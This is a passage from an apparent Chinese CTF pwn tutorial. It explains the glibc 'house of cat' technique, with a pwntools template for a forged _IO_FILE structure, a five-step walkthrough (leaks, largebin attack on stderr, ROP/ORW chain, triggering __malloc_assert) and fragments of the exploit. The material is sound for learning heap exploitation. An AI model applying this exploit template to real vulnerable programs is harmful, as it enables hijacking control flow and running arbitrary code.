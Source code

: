 ```c
fake_struct += p64(0)                   #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(call_addr)           #_IO_save_end = call_addr
fake_struct += p64(0)                   #_markers
fake_struct += p64(0)                   #_chain
fake_struct += p64(0)                   #_fileno
fake_struct += p64(0)                   #_old_offset
fake_struct += p64(0)                   #_cur_column
fake_struct += p64(heap_base + 0x200)   #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0)                   #_offset
fake_struct += p64(0)                   #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wide_data rax1
fake_struct += p64(0)                   #_freers_list
fake_struct += p64(0)                   #_freers_buf
fake_struct += p64(0)                   #__pad5
fake_struct += p32(0)                   #_mode
fake_struct += b"\x00"*20               #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vtable
fake_struct += p64(0)*6                 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2

payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
```
##### &emsp;&emsp;&emsp;在具体使用时, 需要更改```fake_io_addr```为伪造的fake_IO的堆的地址, _IO_save_end为要调用的函数(即call_addr), _IO_backup_base为执行函数时的rdx, 以及修改_flags(即rdi)为执行函数时的rdi<br>
##### &emsp;&emsp;&emsp;

#### &emsp; __malloc_assert举例
##### &emsp;&emsp;&emsp;这里以那道著名的 ```house of cat``` 举例, 但是只关注largebin的部分, 绕过沙箱的部分忽略.<br> &emsp;&emsp;&emsp;使用了```__malloc_assert```触发orw的方法<br>&emsp;&emsp;&emsp;
##### &emsp;&emsp;&emsp;第一步是要先泄露出libc和heap基址, 这部分省略, 请各显神通<br>
##### &emsp;&emsp;&emsp;第二步是伪造一个_IO_FILE_PLUS结构, 用于绕过检查以及劫持虚表<br>
##### &emsp;&emsp;&emsp;第三步是通过largebin attack将stderr使用伪造的结构体替换, <br>
##### &emsp;&emsp;&emsp;第四步, 弄一个ROP或者是ORW之类的, 和二三步顺序可以互换<br>
##### &emsp;&emsp;&emsp;第五步, 想办法触发__malloc_assert, 常用的办法是修改top chunk size<br>
##### &emsp;&emsp;&emsp;模板中的```call_addr```修改为```setcontext+61```, 并在```rop_addr```指示的堆地址填入需要的rop链

##### &emsp;&emsp;&emsp;完整exp可以看https://xz.aliyun.com/t/13016?time__1311=GqmhBKYKGIqGx0HQ1DunFG8YwpVDpYD, 这里对伪造的部分做更具体地解释<br>
##### &emsp;&emsp;&emsp;
```python
...
free(0) # fwd
...
# fake io struct
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)

free(2) # addr(2) = addr(4) , 疑似是为了方便计算偏移
add(4,0x418,payload) 
free(4) # victim

```